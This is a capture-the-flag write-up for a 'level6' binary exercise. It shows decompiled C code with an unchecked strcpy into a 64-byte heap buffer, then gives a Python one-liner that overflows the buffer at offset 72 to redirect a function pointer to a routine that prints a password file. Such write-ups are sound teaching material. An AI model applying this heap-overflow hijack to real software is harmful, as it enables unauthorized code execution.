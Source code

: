 Here is the decompiled code :

```c
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2)

{
  char *__dest;
  undefined4 *puVar1;

  __dest = (char *)malloc(0x40);
  puVar1 = (undefined4 *)malloc(4);
  *puVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (*(code *)*puVar1)();
  return;
}
```

We see in our main that m() function is called, and that we have another function called n(). We have a malloc of size 0x40 (64bytes in decimal). We can try a heap buffer overflow.

The address of n() is 0x08048454

Let's use https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to find the offset in order to exploit the overflow.

The offset is 72.

So if we put the address of n() at the offset of the buffer, we will land in the n() function and it will print the token.

`./level6 \`python -c 'print("A"*72 + "\x54\x84\x04\x08")'\``
